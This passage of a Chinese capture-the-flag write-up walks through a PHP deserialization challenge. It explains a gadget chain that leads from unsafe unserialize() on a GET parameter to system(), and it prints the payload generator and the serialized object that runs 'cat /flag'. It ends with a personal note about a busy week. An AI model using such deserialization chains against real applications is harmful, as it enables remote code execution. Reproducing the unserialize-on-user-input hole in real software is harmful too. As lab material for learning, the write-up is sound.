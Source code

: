```
        }
    }
}


if(isset($_GET['Ha_rde_r']))
{
    unserialize($_GET['Ha_rde_r']);
} else{
    die("You are Silly goose!");
}
?> You are Silly goose!
```
首先根据变量start可知Ha类为链子开始，然后会触发_construct和_destruct方法，在后者里有个判断语句，需要给start2赋值"11111"然后触发了Love()函数，触发不存在的函数会调用_call方法，而只有Rd里有_call方法，所以咱第二步通过start1转到Rd中，在call方法中有个判断语句，让$arg[0]['POC']=="1111"成立，根据网上wp说这里需要通过$payload依靠变量覆盖[''=>'']来实现（贴个变量覆盖的文章：[https://blog.csdn.net/weixin_39831567/article/details/115982842](https://blog.csdn.net/weixin_39831567/article/details/115982842)）然后全部完成会触发$this->cl->var1 = "system";给未定义的类赋值触发_set魔术方法，_set在Er类里最后调用Er类，同时这个system会到set里的$value里，所以我们给Flag赋值system执行语句就行，构造payload:
```
<?php
Class Rd{
    public $ending;
    public $cl;
    public $poc;
}
class Poc{
    public $payload;
    public $fun;
}
class Er{
    public $symbol;
    public $Flag='cat /flag';
}
class Ha{
    public $start;
    public $start1;
    public $start2="11111";
}
$a=new Ha();
$a->start1=new Rd();
$poc=new Poc();
$poc->payload=['POC'=>'1111'];
$a->start=$poc->payload;
$a->start1->cl=new Er();
echo(serialize($a));
?>O:2:"Ha":3:{s:5:"start";a:1:{s:3:"POC";s:4:"1111";}s:6:"start1";O:2:"Rd":3:{s:6:"ending";N;s:2:"cl";O:2:"Er":2:{s:6:"symbol";N;s:4:"Flag";s:9:"cat /flag";}s:3:"poc";N;}s:6:"start2";s:5:"11111";}
```
先构造ls /看到flag
![78472c137fcacb12f25073e6577a668b.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699536682743-900ece12-d3c6-4354-9fe3-f17bc77a1c25.png#averageHue=%23fcfbfb&clientId=u72270d6e-ec62-4&from=paste&height=695&id=u9813521c&originHeight=869&originWidth=1917&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=126250&status=done&style=none&taskId=ue64068b3-6d87-4cee-9d6f-9e175351fe0&title=&width=1533.6)
再构造cat /flag传参得到flag
![302a73c4c3cb6c84d560dae770f041be.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699534117037-91cb1201-8ea3-4448-b1e1-ad024992d250.png#averageHue=%23fdfcfc&clientId=u72270d6e-ec62-4&from=paste&height=699&id=u7e39b862&originHeight=874&originWidth=1918&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=119327&status=done&style=none&taskId=u598c6106-6dcb-46b2-b945-c24269de28b&title=&width=1534.4)
## 总结
本周期中考试周在考试和学习中夹着，然后又有开源报告工作，结课论文报告，本以为本周没什么大比赛，可能就是复现之前的比赛题顺便多刷刷nss和buu上的题，突然事情多了起来，那天大家搜集开源情报时，黄师傅突然展示脱发真的很累的一周。

